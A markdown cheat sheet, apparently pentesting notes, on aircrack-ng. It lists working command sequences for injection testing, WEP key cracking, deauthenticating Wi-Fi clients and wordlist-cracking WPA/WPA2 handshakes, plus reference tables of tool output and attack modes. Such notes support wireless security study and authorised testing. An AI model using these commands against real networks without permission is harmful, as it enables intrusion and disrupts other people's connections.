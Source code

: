 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
    ```bash
       # List wireless interfaces
       iwconfig
       # Start the wireless interface in monitor mode on the specific AP channel
       airmon-ng start wlan0
       # Show available AP
       airodump-ng wlan0mon
       # Start airodump-ng to capture the IVs
       airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon
       # Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
       aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
       # Start aireplay-ng in ARP request replay mode to inject packets
       aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
       # Run aircrack-ng to crack key using the IVs collected
       aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
     ```
   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**


   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
